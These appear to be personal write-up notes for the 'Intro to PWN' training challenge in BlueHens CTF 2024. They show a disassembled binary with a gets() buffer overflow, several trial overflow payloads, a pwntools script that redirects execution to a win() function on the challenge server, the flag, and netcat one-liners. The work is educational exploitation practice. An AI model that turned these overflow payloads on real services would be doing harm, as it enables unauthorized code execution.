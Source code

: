 = 2024年11月10日

== BlueHens CTF 2024

=== Training Problem: Intro to PWN 

``nc 0.cloud.chals.io 13545``

----
0000000000401196 <win>:
  401196:	f3 0f 1e fa          	endbr64
  40119a:	55                   	push   %rbp
  40119b:	48 89 e5             	mov    %rsp,%rbp
  40119e:	48 8d 05 5f 0e 00 00 	lea    0xe5f(%rip),%rax        # 402004 <_IO_stdin_used+0x4>
  4011a5:	48 89 c7             	mov    %rax,%rdi
  4011a8:	e8 d3 fe ff ff       	call   401080 <system@plt>
  4011ad:	90                   	nop
  4011ae:	5d                   	pop    %rbp
  4011af:	c3                   	ret

00000000004011b0 <vuln>:
  4011b0:	f3 0f 1e fa          	endbr64
  4011b4:	55                   	push   %rbp
  4011b5:	48 89 e5             	mov    %rsp,%rbp
  4011b8:	48 83 ec 30          	sub    $0x30,%rsp
  4011bc:	48 8d 05 49 0e 00 00 	lea    0xe49(%rip),%rax        # 40200c <_IO_stdin_used+0xc>
  4011c3:	48 89 c7             	mov    %rax,%rdi
  4011c6:	e8 a5 fe ff ff       	call   401070 <puts@plt>
  4011cb:	48 8d 45 d0          	lea    -0x30(%rbp),%rax
  4011cf:	48 89 c7             	mov    %rax,%rdi
  4011d2:	b8 00 00 00 00       	mov    $0x0,%eax
  4011d7:	e8 b4 fe ff ff       	call   401090 <gets@plt>
  4011dc:	90                   	nop
  4011dd:	c9                   	leave
  4011de:	c3                   	ret

00000000004011df <main>:
  4011df:	f3 0f 1e fa          	endbr64
  4011e3:	55                   	push   %rbp
  4011e4:	48 89 e5             	mov    %rsp,%rbp
  4011e7:	48 8b 05 82 2e 00 00 	mov    0x2e82(%rip),%rax        # 404070 <stdin@GLIBC_2.2.5>
  4011ee:	b9 01 00 00 00       	mov    $0x1,%ecx
  4011f3:	ba 02 00 00 00       	mov    $0x2,%edx
  4011f8:	be 00 00 00 00       	mov    $0x0,%esi
  4011fd:	48 89 c7             	mov    %rax,%rdi
  401200:	e8 9b fe ff ff       	call   4010a0 <setvbuf@plt>
  401205:	48 8b 05 54 2e 00 00 	mov    0x2e54(%rip),%rax        # 404060 <stdout@GLIBC_2.2.5>
  40120c:	b9 01 00 00 00       	mov    $0x1,%ecx
  401211:	ba 02 00 00 00       	mov    $0x2,%edx
  401216:	be 00 00 00 00       	mov    $0x0,%esi
  40121b:	48 89 c7             	mov    %rax,%rdi
  40121e:	e8 7d fe ff ff       	call   4010a0 <setvbuf@plt>
  401223:	48 8b 05 56 2e 00 00 	mov    0x2e56(%rip),%rax        # 404080 <stderr@GLIBC_2.2.5>
  40122a:	b9 01 00 00 00       	mov    $0x1,%ecx
  40122f:	ba 02 00 00 00       	mov    $0x2,%edx
  401234:	be 00 00 00 00       	mov    $0x0,%esi
  401239:	48 89 c7             	mov    %rax,%rdi
  40123c:	e8 5f fe ff ff       	call   4010a0 <setvbuf@plt>
  401241:	b8 00 00 00 00       	mov    $0x0,%eax
  401246:	e8 65 ff ff ff       	call   4011b0 <vuln>
  40124b:	b8 00 00 00 00       	mov    $0x0,%eax
  401250:	5d                   	pop    %rbp
  401251:	c3                   	ret
----


AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x90\x90\x90\x90\x90\x90\x90\x90\x9e\x11\x40

401196


\x96\x11\x40\x00

\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x90\x90\x90\x90\xc0\x11\x40\x00
\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x90\x90\x90\x90\xc0\x11\x40\x00
\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x90\x90\x90\x90\xc0\x11\x40\x00

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0\x11\x40\x00


take note of: ``0x7ffff7e16f5b <do_system+016b> movaps XMMWORD PTR [rsp+0x50], xmm0``

you need to add another 4 bytes to the address because of **movaps**.

[, python]
----
from pwn import *

context.log_level = 'debug'

binary_path = "./pwnme"

elf = ELF(binary_path)

web = remote("0.cloud.chals.io", 13545)
print(web.recv())
web.sendline(b"A"*48 + b"\x90"*8 + b"\x9e\x11\x40")
web.interactive()
----

udctf{h00r4y_I_am_a_pwn3r_n0w}


i dont get why this works but not using ``echo -ne "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x90\x90\x90\x90\x90\x90\x90\x90\x9e\x11\x40" | nc 0.cloud.chals.io 13545``


(echo -ne "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x90\x90\x90\x90\x90\x90\x90\x90\x9e\x11\x40" && cat) | nc 0.cloud.chals.io 13545

don't use `-n` flag, removes `\x0a` byte at the end
